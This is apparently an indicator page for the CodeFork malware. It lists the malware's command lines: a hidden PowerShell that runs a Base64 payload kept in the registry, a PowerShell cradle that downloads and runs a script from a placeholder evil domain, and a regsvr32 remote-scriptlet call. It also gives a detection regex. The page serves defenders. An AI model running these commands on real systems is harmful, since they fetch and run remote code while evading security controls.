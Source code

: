 ## CodeFork




#### Commands
---

* Powershell.exe

1.
``
-WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp 'HKCU:\Software\Classes\[Same Random Key]').[Random Value Name])));
``

2.
``
-nop -ep Bypass -noexit -c [System.Net.ServicePointManager]: ServerCertificateValidationCallback = { $true }; iex ((New-Object System.Net.WebClient).DownloadString('https://somerandomevildomain.xx /somerandomflie'))
``

* Regsvr.exe

1.
``
/s /u /i:http://xxx.somerandomevildomain.xx/evilpath.xml scrobj.dl
``

#### Regular Expressions
---

``
-WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String
``

#### Resources
---

Technical write-ups:
* https://security.radware.com/malware/codefork-malware/

Sandbox reports:
* 

Notes:



 
